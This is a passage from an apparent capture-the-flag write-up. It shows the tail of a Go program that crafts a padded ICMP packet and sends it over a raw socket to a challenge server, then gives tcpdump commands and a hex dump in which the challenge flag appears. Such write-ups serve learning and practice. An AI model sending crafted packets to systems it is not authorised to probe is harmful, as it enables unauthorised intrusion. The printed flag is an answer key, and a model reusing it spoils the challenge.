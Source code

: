 ```go
			Data: data,
		},
	}
	packet, err := m.Marshal(nil)
	if err != nil {
		panic(err)
	}

	conn, err := net.Dial("ip4:icmp", targetIP)
	if err != nil {
		log.Fatalf("Dial: %s\n", err)
	}

	n, err := conn.Write(packet)
	if err != nil {
		panic(err)
	}
	fmt.Printf("write %d bytes\n", n)
	fmt.Println(hex.Dump(packet))
}
```

- Source: [./packetforge/main.go](./packetforge/main.go)

Now fire a tcpdump in a window:

```
sudo tcpdump -n host 34.159.43.116 -X
```

and run that script:

```
sudo go run ./packetforge/main.go
```

And the flag should show up on the tcpdump window:

```
	0x0000:  4500 0077 db92 0000 3c01 e215 229f 2b74  E..w....<...".+t
	0x0010:  c0a8 b222 0000 59cd fd52 164f 4141 4141  ..."..Y..R.OAAAA
	0x0020:  4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
	0x0030:  dd48 d0cf d310 3cd4 4242 4242 4242 4242  .H....<.BBBBBBBB
	0x0040:  4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
	0x0050:  4472 676e 537b 6338 6439 3862 3037 6434  DrgnS{c8d98b07d4
	0x0060:  6332 6634 6133 6363 6332 6663 3130 6234  c2f4a3ccc2fc10b4
	0x0070:  6636 3238 3135 7d                        f62815}
```

> Note: we can't just read the packet response from the socket connection in the code, as the packet get modified by the routing table, and the checksum isn't recomputed (got: 0xfd52, want: 0xc180). We could've read it using a lower level connection (such as raw socket & syscalls), but tcpdump does the trick here.


## Conclusion
